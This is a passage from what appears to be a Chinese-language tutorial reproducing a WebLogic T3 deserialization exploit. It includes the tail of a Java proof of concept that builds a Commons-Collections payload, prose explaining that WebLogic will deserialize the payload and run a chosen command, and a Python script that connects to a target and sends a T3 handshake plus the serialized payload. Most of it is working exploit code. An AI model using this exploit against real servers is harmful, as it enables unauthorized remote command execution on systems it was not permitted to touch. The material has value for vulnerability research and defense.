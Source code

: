 ```java
//        ByteArrayInputStream bais = new ByteArrayInputStream(baos.toByteArray());
//        ObjectInputStream ois = new ObjectInputStream(bais);
//        Object obj = (Object) ois.readObject();
    }
}
```

运行这个poc之前需要commons-collections类库，否则会提示很多类找不到，由于我是在本地复现，可以直接在idea中将weblgoic中的`com.bea.core.apache.commons.collections_3.2.0.jar`加入到lib中,具体操作参考：

https://blog.csdn.net/he_and/article/details/89843004

然后运行该poc,会在当前目录下生成poc.ser文件，这个文件中就存放着序列化后的payload,现在payload有了，我们还需要发送给weblogic，weblogic有一个t3协议，这个协议依赖于序列化与反序列化机制，所以，我们只要按照t3协议的格式，把payload发送到weblogic,weblogic就会反序列化我们的恶意payload,从而执行指定的命令,t3协议脚本：

```python
#!/usr/bin/python
import socket
import sys
import struct

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

server_address = (sys.argv[1], int(sys.argv[2]))
print 'connecting to %s port %s' % server_address
sock.connect(server_address)

# Send headers
headers='t3 12.2.1\nAS:255\nHL:19\nMS:10000000\nPU:t3://us-l-breens:7001\n\n'
print 'sending "%s"' % headers
sock.sendall(headers)

data = sock.recv(1024)
print >>sys.stderr, 'received "%s"' % data

payloadObj = open(sys.argv[3],'rb').read()

payload='\x00\x00\x09\xf3\x01\x65\x01\xff\xff\xff\xff\xff\xff\xff\xff\x00\x00\x00\x71\x00\x00\xea\x60\x00\x00\x00\x18\x43\x2e\xc6\xa2\xa6\x39\x85\xb5\xaf\x7d\x63\xe6\x43\x83\xf4\x2a\x6d\x92\xc9\xe9\xaf\x0f\x94\x72\x02\x79\x73\x72\x00\x78\x72\x01\x78\x72\x02\x78\x70\x00\x00\x00\x0c\x00\x00\x00\x02\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x70\x70\x70\x70\x70\x70\x00\x00\x00\x0c\x00\x00\x00\x02\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x70\x06\xfe\x01\x00\x00\xac\xed\x00\x05\x73\x72\x00\x1d\x77\x65\x62\x6c\x6f\x67\x69\x63\x2e\x72\x6a\x76\x6d\x2e\x43\x6c\x61\x73\x73\x54\x61\x62\x6c\x65\x45\x6e\x74\x72\x79\x2f\x52\x65\x81\x57\xf4\xf9\xed\x0c\x00\x00\x78\x70\x72\x00\x24\x77\x65\x62\x6c\x6f\x67\x69\x63\x2e\x63\x6f\x6d\x6d\x6f\x6e\x2e\x69\x6e\x74\x65\x72\x6e\x61\x6c\x2e\x50\x61\x63\x6b\x61\x67\x65\x49\x6e\x66\x6f\xe6\xf7\x23\xe7\xb8\xae\x1e\xc9\x02\x00\x09\x49\x00\x05\x6d\x61\x6a\x6f\x72\x49\x00\x05\x6d\x69\x6e\x6f\x72\x49\x00\x0b\x70\x61\x74\x63\x68\x55\x70\x64\x61\x74\x65\x49\x00\x0c\x72\x6f\x6c\x6c\x69\x6e\x67\x50\x61\x74\x63\x68\x49\x00\x0b\x73\x65\x72\x76\x69\x63\x65\x50\x61\x63\x6b\x5a\x00\x0e\x74\x65\x6d\x70\x6f\x72\x61\x72\x79\x50\x61\x74\x63\x68\x4c\x00\x09\x69\x6d\x70\x6c\x54\x69\x74\x6c\x65\x74\x00\x12\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x53\x74\x72\x69\x6e\x67\x3b\x4c\x00\x0a\x69\x6d\x70\x6c\x56\x65\x6e\x64\x6f\x72\x71\x00\x7e\x00\x03\x4c\x00\x0b\x69\x6d\x70\x6c\x56\x65\x72\x73\x69\x6f\x6e\x71\x00\x7e\x00\x03\x78\x70\x77\x02\x00\x00\x78\xfe\x01\x00\x00'
payload=payload+payloadObj
```